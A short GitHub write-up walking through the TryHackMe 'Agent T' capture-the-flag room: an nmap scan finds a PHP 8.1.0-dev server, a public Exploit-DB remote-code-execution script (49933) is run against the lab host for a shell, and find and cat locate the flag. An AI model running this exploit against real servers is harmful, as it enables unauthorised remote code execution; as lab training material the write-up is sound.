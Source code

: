 # Agent-T-Writeup
A step by step walk through for the Agent T CTF on Tryhackme

### Link : https://tryhackme.com/room/agentt

## Enumeration: 

We beging our enumeration with Nmap 

`└─$ nmap 10.10.197.199 -sV -sC
`



`
Starting Nmap 7.93 ( https://nmap.org )
`


`
PORT   STATE SERVICE VERSION
`




`
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
`


`
|_http-title:  Admin Dashboard`

We see that the only port running is 80, visiting the website we are greeted by an admin dashboard template and that the server is running PHP 8.1.0

## Vulnerabilty hunting

Heading over to  https://www.exploit-db.com we find that PHP 8.1.0 is vulnerable to remote code execution by changing our user agent


CVE LINK: https://www.exploit-db.com/exploits/49933

We now download this using wget to our linux machine and run the program with python3

`python3 49933`


The script asks us for the host URL
 `Enter the full host url:
 `
 
 `
http://10.10.89.136`

This gives us a shell on the machine, now we can search for a flag

`find / -type f -name "flag.txt"`

We are given a location for the flag and we simply need to cat it

`cat <flag_location>`


### I HOPE THIS HELPS!!
